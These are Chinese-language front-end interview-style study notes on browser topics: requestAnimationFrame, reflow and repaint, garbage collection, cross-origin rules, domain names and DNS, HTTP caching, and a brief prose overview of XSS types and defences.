# 浏览器相关

## 1. requestAnimationFrame

requestAnimationFrame 是一个浏览器提供的方法，用于在浏览器下次重绘之前执行回调函数，通常用于动画和游戏开发。

它会把每一帧中的所有DOM操作集中起来,在重绘之前一次性更新,并且关联到浏览器的重绘操作。

优点：

1. requestAnimationFrame 会把每一帧中的所有 DOM 操作集中起来，在一次重绘或回流中完成，并且重绘或回流的时间间隔紧紧跟随浏览器的刷新频率，通常每秒60帧。

2. 在隐藏或不可见的元素中，requestAnimationFrame 将不会进行重绘或回流，这意味着更少的 CPU、GPU 和内存使用量。（文心一言网页版应该使用的这个，如果离开对话页面，文心一言会停止内容输出）

3. 函数节流，requestAnimationFrame 可保证每个刷新间隔内，函数只被执行一次。

requestAnimationFrame(callback) 触发的 callback 方法会接受一个时间戳参数，所以如果不想直接跟随浏览器系统帧频的话，可以利用这个时间戳参数来做到自定义帧频，做法就是当前时间减去所记录的上一次的时间，如果超过自定义的帧频时间，就可以真正做渲染。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
  <style>
    .father {
      width: 100px;
      height: 100px;
      background-color: red;
      position: relative;
    }
  </style>
</head>
<body>
  <div class="father">123</div>
</body>
<script>
  var father = document.querySelector('.father');
  var flag = true;
  var left = 0;
  var lastTime = Date.now();
  var gapTime = 500;
  var nowTime = 0;

  function render() {
    if (flag) {
      if (left >= 100) {
        flag = false;
      }
      father.style.left = `${left++}px`;
    } else {
      if (left <= 0) {
        flag = true;
      }
      father.style.left = `${left--}px`;
    }
  }

  function loop() {
    var nowTime = Date.now();
    if (nowTime - lastTime >= gapTime) {
      lastTime = nowTime;
      render();
    }
    var id = requestAnimationFrame(loop);
    // if (left === 50) {
    //   cancelAnimationFrame(id);
    // }
  }

  loop();
  // setInterval(function() {
  //   render()
  // }, 10);
</script>
</html>
```

[requestAnimationFrame详解](https://www.jianshu.com/p/fa5512dfb4f5){link=static}

[浅析requestAnimationFrame的用法与优化](https://segmentfault.com/a/1190000044314827){link=static}

## 2. 重排重绘

### 重排重绘是什么？

- 重排（reflow）：又叫回流。当页面元素的**几何属性**（如宽、高、内外边距、position、display:none）发生变化，导致元素的位置大小发生改变时，浏览器需要重新**进行布局Layout（计算 DOM 元素最终在屏幕显示的大小和位置）**，这个过程称为重排。一个节点的重排往往会导致它的子节点以及同级节点的重排。

- 重绘（repaint）：元素的样式发生改变，浏览器需要重新**将元素绘制到屏幕**上，这个过程称为重绘。

- 重排一定导致重绘，重绘不一定导致重排（如仅仅是颜色发生变化）。



### 重排的触发原因

重排是因为元素的几何属性发生变化，它的触发机制如下。

- 页面的初始化渲染（不可避免）

- 添加、删除**可见的**DOM 元素

- 元素本身的尺寸改变（如内外边距、宽高、边框厚度）

- 元素位置改变（display、float、position、overflow 等）

- 元素字体大小发生改变

- 浏览器窗口大小改变

- 内容改变，如文本改变或图片大小改变引起的宽高改变

- 动画效果

- 获取某些特殊属性。当获取一些属性时，浏览器为了能得到正确的值会强制触发重排，导致队列刷新，这些属性包括：

  - offset(Top/Left/Width/Height)

  - scroll(Top/Left/Width/Height)

  - cilent(Top/Left/Width/Height)

  - width,height

  - 调用了 getComputedStyle() 或者 IE 的 currentStyle

### 浏览器优化重排的措施

浏览器通过**队列化修改和批量运行来**优化重排，减少重排次数。

浏览器会维护 1 个队列，把所有引起重排、重绘的操作都放到这个队列当中，等队列中的操作达到一定数量或者到了一定的时间间隔，浏览器会刷新队列，进行一次批处理，这样多次重排重绘就会变成一次。

但是，对于一些特殊的几何属性，如 offsetTop、offsetLeft，这些都是需要实时返回给用户的属性，为了保证返回正确的值，浏览器会立即刷新队列，触发重排重绘。

### 开发者优化重排的措施

#### 1. 集中样式改变

不要一条一条地修改 DOM 的样式。通过**切换类名**修改样式，或者使用 **cssText 属性**。

```js
// 不推荐的写法
var element= document.getElementById('id');
element.style.width='20px';
element.style.height='20px';
element.style.border='solid 1px red';

// 推荐写法
ele.style.cssText = 'width:20px;height:20px;border:solid 1px red';
```

[cssText用法和使用说明](https://www.cnblogs.com/Joe-and-Joan/p/10036828.html){link=static}

#### 2. 批量修改 DOM 元素

对要操作的元素进行“离线处理”，处理完成后一起更新。

核心思想：元素脱离文档流，对其进行改变，将元素带回文档中。

- 使用 display:none，隐藏元素进行修改后再显示。这种方法触发 2 次重排，分别是元素的隐藏和显示过程。

- 使用文档片段 DocumentFragment 进行缓存操作。先使用文档片段（createDocumentFragment）创建一个子树，然后再拷贝到文档中。触发 1 次重排。

- 使用 cloneNode(true or false) 和 replaceChild 技术。将原始元素拷贝到一个独立的节点中，操作这个节点，然后覆盖原始元素，触发 1 次重排。

```js
// 隐藏，修改，显示
let ul = document.querySelector('#mylist');
ul.style.display = 'none';
appendNode(ul, data);
ul.style.display = 'block';

// 文档片段
let fragment = document.createDocumentFragment();
appendNode(fragment, data);
ul.appendChild(fragment);

// 拷贝覆盖
let old = document.querySelector('#mylist');
let clone = old.cloneNode(true);
appendNode(clone, data);
old.parentNode.replaceChild(clone, old);
```

#### 3. 缓存布局信息

当访问 offsetTop、offsetLeft 这些特殊属性时，应该尽量减少对布局信息的查询次数。查询时，将其赋值给局部变量，使用局部变量参与计算。

```js
// 将div 向右下方平移，每次移动 1px，起始位置 100px、100px

// 性能糟糕的代码
div.style.left = 1 + div.offsetLeft + 'px';
div.style.top = 1 + div.offsetTop + 'px';

// 上述代码每次都会访问 div 的 offsetLeft，导致浏览器强制刷新渲染队列以获取最新的 offsetLeft 值
// 应该将这个值保存下来，避免重复取值
current = div.offsetLeft;
currentTop = div.offsetTop;
div.style.left = 1 + ++current + 'px';
div.style.top = 1 + ++currentTop + 'px';
```

## 3. 浏览器垃圾回收机制

垃圾回收 GC：Garbage Collection。

浏览器的垃圾收集器会定期（周期性）找出那些不再继续使用的变量，接着释放其内存。这个过程不是实时的，因为其开销比较大，并且 GC 时停止响应其它操作，因此垃圾回收器会按照固定的时间间隔周期性地执行。

不再使用的变量，即生命周期结束的变量，只可能是局部变量，全局变量的生命周期直到浏览器卸载页面才会结束。

垃圾回收的两种方式：标记清除法和引用计数法。

### 标记清除

标记清除法保留「可达性」的值，清除「不可达」的变量。

有一些是永远是「可达」的，无法删除，这些值称为根。例如：

- 全局变量

- 本地函数的局部变量和参数（在该函数执行的时候，它们是根）

如果变量可以从根开始访问到，则认为这个值是可访问的。不可访问的就是垃圾。

标记清除法的垃圾回收步骤如下：

- 垃圾回收器获取根，并标记它们。

- 访问并标记所有根引用的值。

- 再访问标记这些值的所有引用，以此类推。

- 除了被标记的对象，其它对象就是垃圾，都被删除。



### 引用计数

引用计数的含义是跟踪记录每个值被引用的次数。

```js
function test() {
  var a = {}; //a的引用次数为0
  var b = a; //a的引用次数加1，为1
  var c = a; //a的引用次数再加1，为2
  var b = {}; //a的引用次数减1，为1
}
```

引用计数会遇到严重的问题：循环引用。循环引用指的是对象A中包含一个指向对象B的指针，而对象B中也包含一个指向对象A的引用。

```js
function fn() {
  var a = {};
  var b = {};
  a.pro = b;
  b.pro = a;
}
```

以上代码a和b的引用次数都是2，fn()执行完毕后，两个对象都已经离开环境，在标记清除方式下是没有问题的，但是在引用计数策略下，因为a和b的引用次数不为0，所以不会被垃圾回收器回收内存，如果fn函数被大量调用，就会造成内存泄露。在IE7与IE8上，内存直线上升。

IE中有一部分对象并不是原生js对象。例如，其内存泄露DOM和BOM中的对象就是使用C++以COM对象的形式实现的，而COM对象的垃圾回收机制采用的就是引用计数策略。因此，即使IE的js引擎采用标记清除策略来实现，但js访问的COM对象依然是基于引用计数策略的。换句话说，只要在IE中涉及COM对象，就会存在循环引用的问题。

### GC 算法

JavaScript 引擎基础 GC 方案是 mark and sweep（标记清除）。

- 遍历所有可访问对象。

- 回收不可访问的对象。

GC的缺陷：

GC时，停止响应其他操作，这是为了安全考虑。而Javascript的GC在100ms甚至以上，对一般的应用还好，但对于JS游戏，动画对连贯性要求比较高的应用，就麻烦了。这就是新引擎需要优化的点：避免GC造成的长时间停止响应。

### GC 优化策略

1. 分代回收（Generation GC）

通过区分「临时」和「持久」对象，多回收临时对象区（young generation），少回收持久对象区（tenured generation），从而减少每次需要遍历的对象，降低 GC 耗时。

持久对象的回收检查频率会降低。

对于tenured generation对象，有额外的开销：把它从young generation迁移到tenured generation，另外，如果被引用了，那引用的指向也需要修改。

2. 增量 GC

主要思想：每次处理一点，下次再处理一点，如此类推。

这种方案，虽然耗时短，但中断比较多，带来上下文切换频繁的问题。

3. 空闲时间回收

垃圾回收器只在 CPU 空闲时候运行，减少对执行的可能影响。

要根据实际应用选择不同方案。

### 内存泄漏问题

- 闭包导致的内存泄漏

- bind、call、apply 引起的泄漏问题

- 使用了 addEventListener，但是没有 removeEventListener

[前端面试：谈谈 JS 垃圾回收机制](https://segmentfault.com/a/1190000018605776){link=static}

[浏览器中的垃圾回收与内存泄漏](https://juejin.cn/post/6844903828102316045){link=static}

## 4. 跨域

同源策略：浏览器为了保证用户信息的安全，防止恶意网站窃取数据，禁止不同域之间的 JS 进行交互。对于浏览器而言，只要协议、域名、端口号其中一个不同，就会引发同源策略，从而限制不同域之间的交互行为。

解决方案详见第一篇文章。

[JS中的跨域问题及解决办法汇总](https://blog.csdn.net/lareinalove/article/details/84107476){link=static}

[浏览器同源政策及其规避方法-阮一峰](https://www.ruanyifeng.com/blog/2016/04/same-origin-policy.html){link=static}

[跨域资源共享 CORS 详解-阮一峰](https://www.ruanyifeng.com/blog/2016/04/cors.html){link=static}

## 5. 域名

### 概述

域名，Domain Name，是互联网上用于唯一标识网站和资源的字符串。

由于 IP 地址不方便记忆，且无法显示出网站的名称、性质等内容，因此人们设计出域名，和 IP 地址互相映射，方便人们记忆。

一个域名由几个部分组成（可能2个、3个……），以点分隔，从右往左阅读。



### 顶级域名 TLD

顶级域名，TLD（Top-Level Domain），可以告诉用户这个域名提供什么性质的服务，如 `.edu` 是教育机构使用，`.gov` 是政府部门，`.com` 是商业机构。

顶级域名既可以包含拉丁字母，也可以包含特殊字符。顶级域名最长可以达到 63 个字符，虽然大多数都是两到三个字符。

- 国家顶级域名（national top-level domain names, nTLDs）。目前200多个国家都按照 ISO3166 国家代码分配了顶级域名，如：.cn（中国大陆）, .us（美国）, .uk（英国）, .jp（日本） 等。

- 国际顶级域名（international top-level domain names, iTDs），如：用于商业公司的 `.com` `.top`、用于网络服务的 `.net`、用于组织协会的 `.org`，用于政府部门的 `.gov`，用于教育机构的 `.edu`，用于军事领域的 `.mil`，用于国际组织的 `.int` 等。

- 新通用顶级域名，ICANN 出台的一个新的开放政策，任何个人和公司都可以申请自己的域名后缀。如：.`xyz`, `.win`, `.club`。

### 二级域名 SLD

二级域名，SLD（Second-Level Domain），是位于顶级域名之下的域，域名从右往左第二个部分。

国际顶级域名下，是注册的名称，如：baidu, google, microsoft 等。

国家顶级域名下，则表示注册类别的符号，如：com, org, edu, gov, net 等

:::tip 域名充分利用
二级域名需要备案，三级域名以及后面的不需要单独备案。

例如，百度注册了 baidu.com 这个二级域名，如果需要使用 www.baidu.com、music.baidu.com，不需要单独备案，但需要在域名申请的机构网站设置一下开启三级域名，并绑定相应 IP。
:::

### 三级域名

字母、数字和连接符(-)组成的名称，长度不超过 20 个字符。

### 查看域名是否可用

```bash
whois baidu.com
```

```bash
Domain Name: baidu.com
Registry Domain ID: 11181110_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.markmonitor.com
Registrar URL: http://www.markmonitor.com
Updated Date: 2023-11-30T04:07:58+0000
Creation Date: 1999-10-11T11:05:17+0000
Registrar Registration Expiration Date: 2026-10-11T07:00:00+0000
Registrar: MarkMonitor, Inc.
Registrar IANA ID: 292
Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
Registrar Abuse Contact Phone: +1.2086851750
Domain Status: clientUpdateProhibited (https://www.icann.org/epp#clientUpdateProhibited)
Domain Status: clientTransferProhibited (https://www.icann.org/epp#clientTransferProhibited)
Domain Status: clientDeleteProhibited (https://www.icann.org/epp#clientDeleteProhibited)
Domain Status: serverUpdateProhibited (https://www.icann.org/epp#serverUpdateProhibited)
Domain Status: serverTransferProhibited (https://www.icann.org/epp#serverTransferProhibited)
Domain Status: serverDeleteProhibited (https://www.icann.org/epp#serverDeleteProhibited)
# 被百度注册了
Registrant Organization: Beijing Baidu Netcom Science Technology Co., Ltd.
Registrant State/Province: Beijing
Registrant Country: CN
Registrant Email: Select Request Email Form at https://domains.markmonitor.com/whois/baidu.com
Admin Organization: Beijing Baidu Netcom Science Technology Co., Ltd.
Admin State/Province: Beijing
Admin Country: CN
Admin Email: Select Request Email Form at https://domains.markmonitor.com/whois/baidu.com
Tech Organization: Beijing Baidu Netcom Science Technology Co., Ltd.
Tech State/Province: Beijing
Tech Country: CN
Tech Email: Select Request Email Form at https://domains.markmonitor.com/whois/baidu.com
Name Server: ns4.baidu.com
Name Server: ns1.baidu.com
Name Server: ns7.baidu.com
Name Server: ns3.baidu.com
Name Server: ns2.baidu.com
DNSSEC: unsigned
URL of the ICANN WHOIS Data Problem Reporting System: http://wdprs.internic.net/
```

### DNS 域名解析



详见文章：

[DNS 域名详细解析过程 (最全面,看这一篇就够)](https://blog.csdn.net/bangshao1989/article/details/121913780){link=static}

[什么是DNS？——DNS和域名解析详解](https://zhuanlan.zhihu.com/p/651014943){link=static}

## 6. HTTP缓存

在有大量数据交换的应用程序中，我们会采取一些方式将那些实时性要求不高的数据生成副本，并存储在某个相对来说可以快速到达、访问、获取的仓库，这样在需要这些数据的时候可以直接从这个仓库中获取数据。

缓存的目的：

- 提升数据交换的性能，提高速度。

- 缓解服务器或数据库的压力。

HTTP 根据是否要向服务器发送请求将缓存规则分为两类：强缓存和协商缓存。

### 强缓存

在强缓存中，如果命中缓存，则直接从缓存数据库中取出资源，无需再发送请求到服务器上。

如果没命中缓存，则走协商缓存。

判断是否命中强缓存的字段为 `Expires` 和 `Cache-Control`。`Cache-Control` 的优先级高于 `Expires`。

#### 1、`Expires`

`Expires` 字段是 HTTP1.0 的产物，它的值是一个绝对时间，表示资源在这个时间点之前都可以直接从缓存中获取。

#### 2、`Cache-Control`

`Cache-Control` 字段是 HTTP1.1 的产物，它的值是一个相对时间。



`Cache-Control` 常见字段的含义：

- public：表示响应可以被任何对象缓存，包括客户端、CDN 代理服务器等。即使是通常不可缓存的内容，例如该响应没有 max-age 指令或 Expires 消息头。

- private：表示响应只能被单个用户缓存，不能作为共享缓存（代理服务器不能缓存它）。

- no-cache：可以在本地进行缓存，但每次获取资源时，都需要向服务器进行验证，如果服务器允许，才能使用本地缓存。即：需要协商缓存。

- no-store：禁止缓存内容，每次必须重新请求服务器获取内容。

- max-age：设置缓存存储的最大周期，超过这个时间，缓存被视为过期。单位：秒。

强缓存的状态码为 200，状态码后会有个注释。



- from memory cache：缓存资源在内存中，浏览器（或页面标签）关闭后，内存中的缓存就会被释放，重新打开页面取不到该缓存。

- from disk cache：缓存资源在磁盘中，浏览器（或页面标签）关闭后，磁盘中的缓存不会被释放，重新打开页面还可以从磁盘中获取。

:::tip
如果不想从强缓存中获取资源，windows 电脑通过 ctrl + f5 刷新页面，mac 可通过 shift + command + r 刷新页面，刷新后不会出现 from disk(or memory) cache。
:::

### 协商缓存

协商缓存是需要经过服务器确认是否使用缓存的机制。

服务器对比客户端提供的标识，若确认缓存可以使用，则返回 304 状态码告知客户端可使用缓存，否则返回 200 状态码和新资源。

虽然客户端仍然发起了请求，但服务器仅仅对比标识来确认是否可使用缓存，如果确认使用缓存就不会返回具体资源。这样虽然没有减少请求数量，但也极大地降低了服务器的负荷，可以提升请求速度和减小网络带宽。

协商缓存的两组字段：`Last-Modified / If-Modified-Since`、`Etag / If-None-Match`。

#### 1、`Last-Modified / If-Modified-Since`

`Last-Modified` 代表资源最后的修改时间。

当客户端第一次请求资源时，服务器会在响应头返回 `Last-Modified` 字段。当客户端再次访问这个资源时，会在请求头中携带 `If-Modified-Since` 字段，它的值就是上次返回的 `Last-Modified` 字段的值。

服务器会对比 `If-Modified-Since` 字段和资源上次修改的时间，确认这段时间内是否有修改。如果没有，则返回 304，否则返回 200 状态码和最新资源。



#### 2、`Etag / If-None-Match`

`Last-Modified / If-Modified-Since` 这组字段会存在以下问题：

- 某些文件会周期性更改，但只是改变了文件的修改时间，文件的内容没有发生改变。这个时候我们并不希望客户端认为这个文件更新了，重新请求。

- 某些文件修改非常频繁，例如在秒级别以下的时间进行修改（1秒内修改多次）。`Last-Modified / If-Modified-Since` 检查的时间粒度是秒级，因此无法正确判断这种情况。

- 某些服务器不能精确得到文件的最后修改时间。

`Etag / If-None-Match` 这组字段可以解决上述问题。Etag 通过一个校验码来对比资源是否更改过，而非通过资源的修改时间。

当一个资源的内容发生变化时，它的校验码也会发生改变。

当客户端第一次请求资源时，服务器会在响应头返回 `Etag` 字段。当客户端再次访问这个资源时，会在请求头中携带 `If-None-Match` 字段，它的值就是上次返回的 `Etag` 字段的值。

服务器对比校验码，确认资源是否更改过。如果没有，则返回 304，否则返回 200 状态码和最新资源。



Etag 的优先级高于 Last-Modified。

### HTTP缓存流程总结



[详解Http缓存策略](https://www.jianshu.com/p/c78b5de7a889){link=static}

[【nodejs】http强缓存协商缓存以及设置](https://blog.csdn.net/yehuozhili/article/details/103268433){link=static}

## 7. 网络攻击及防御

### XSS 跨站脚本攻击

恶意攻击者往 Web 页面里嵌入恶意的客户端脚本，当用户浏览此网页时，脚本就会在用户的浏览器上执行，进而达到攻击者的目的。比如获取用户的 cookie、导航到恶意网站、携带木马等。

反射型 XSS：通过用户输入框，将恶意攻击脚本附加到 URL 地址的参数中。通常出现在网络的搜索框和用户登录入口。

持久型 XSS：攻击者事先将恶意 js 代码上传或存储到漏洞服务器数据库中，只有受害者浏览包含此恶意 js 代码的页面，就会执行恶意代码。可实现 XSS 蠕虫。

XSS 攻击方式：

- 通过 `<>` 等字符，如 script 标签注入 HTML/js。

- 利用 JavaScript 伪协议，通过 HTML 标签的属性值进行攻击，如 img 标签的 src 属性。

- 利用 HTML 的事件执行函数，如 onerror 函数进行攻击。

- 利用空格、回车或 tab 等绕过 XSS filter 的检测。

- 用大小写、字符编码等绕过 XSS filter 的检测。

- 拆分跨站法，将攻击的代码拆分，以绕过输入字符长度的限制。

- 通过 CSS 跨站，实现攻击。

防御方法：

1. 使用 XSS filter：对表单属性值类型进行验证，过滤或移除特殊的 HTML 标签，过滤 js 事件。

2. 特殊字符进行转义：如 `<(&lt), >(&gt), 空格(&nbsp)`、斜杠反斜杠等。

3. 设置 http only cookie：当客户端发送请求时，cookie 会添加到请求头，但 js 脚本不能访问 cookie。

4. 浏览器自带防御机制：主要应对反射型 XSS（HTML 内容或属性），http 响应头中自动添加 x-xss-protection，值为0（关闭），1（打开），默认打开。

[前端常见的攻击方式及预防方法](https://www.jianshu.com/p/a5ff8a23b423){link=static}

[前端安全-常见的攻击以及防御](https://www.cnblogs.com/zhiying/p/11018331.html){link=static}

[彻底弄懂XSS和CSRF](https://segmentfault.com/a/1190000023031910){link=static}

